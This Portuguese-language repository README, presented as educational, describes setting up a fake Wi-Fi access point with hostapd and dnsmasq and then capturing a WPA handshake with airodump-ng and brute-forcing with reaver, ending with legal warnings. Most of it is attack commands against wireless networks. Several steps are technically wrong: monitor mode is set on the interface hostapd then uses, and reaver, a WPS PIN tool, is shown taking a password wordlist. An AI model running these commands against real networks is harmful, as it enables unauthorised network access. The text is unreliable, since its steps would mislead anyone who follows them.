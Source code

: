 Ola este repositorio é para fins educacionais!

a intencao deste repositorio é criar um script altamente explicativo para criacao
de um ponto de acesso(WIFI-FALSO) Para fins de estudo de ciberseguranca.

para comecar os estudos deve-se configurar primeiramente um wifi.
usando "dnsmasq" para fornecer ip, e "hostapd" para emular um ponto de acesso.

##para configura-los usa-se os comandos abaixo

sudo apt updatw

sudo apt install hostapd dnsmasq

##o comando acima talvez nao seja necessario caso ja esteja instalado 

## os comandos abaixo sao necessarios para...
##para colocad a interface que iremos usar em modo monitor.

sudo ip link set wlan0 down

sudo iw dev wlan0 set type monitor

sudo ip link set wlan0 up

##ative o ponto de acesso com o comando abaixo

sudo hostapd hostapd.conf

##ative o dnsmask

sudo dnsmasq -C dnsmasq.conf

## VERIFIQUE SE A REDE FOI CRIADA E SE É POSSIVEL IDENTIFICALA PELO NOME(SSID)

##NOME DE REDE: FakeWiFiNetwork

## APOS ISSO PODEMOS INICIAR COM A TENTATIVA DE CAPTURAR A SENHA DO WIFI.

## temos "aircrack-ng" captura pacotes e tenta quebrar a senha

## e temos ataque de forca bruta com "reaver" entre outros.

### abaixo iremos comecar com aircrack-ng

sudo airodump-ng wlan0
#o comando acima faz analise de redes proximas. ache "FakeWiFiNetwork".

## no comando abaixo voce troca "<BSSID>" pelo mac que ira sair do comando de cima.

sudo airodump-ng --bssid <BSSID> -c 6 -w capture wlan0

##o comando acima é a parte mais importante.

##ele capura handshakes e espera uma conexao de 4 vias.

# use um celular e se conecte ao wifi com a senha que vc ja tem. assim o seu computador ira capturar
##é desta maneira que funciona a captura de handshakes.
##nao se deve fazer o mesmo em wifis reais sem autorizacao


##abaixo iremos agora fazer o mesmo mas usando WORDLIST.
##primeiro precisamos criar uma wordlist, usando um script de permutacoes.
##usaremos "reaver" para fazer o bruteforce
##antes de usar o reaver. á interface que sera usada deve estar em modo monitor.
##tambem precisamos saber do mac,interface, e canal que a rede tem.

#apos termos tudo isso iremos executar os seguintes comando abaixo 

sudo reaver -i wlan0 -b <BSSID> -c <canal> -P wordlist.txt -vv

##prontinho parabens. agora é só aguardar que o reaver ira mostrar o resultado obtido.
<CONSIDERACOES EXTREMAMENTE IMPORTANTES.>
Nao use essas ferramentas em redes reais sem autorizacao. 
qualquer uso ilegal das ferranentas
tem suas conseguencias.
É fundamental sempre obter autorização explícita 
para realizar qualquer tipo de teste de segurança em redes. 
O hacking ético deve ser conduzido de forma responsável, 
respeitando os limites legais e as regras de privacidade. 
A prática de cybersecurity é voltada para educação e proteção, e não para danos a terceiros.
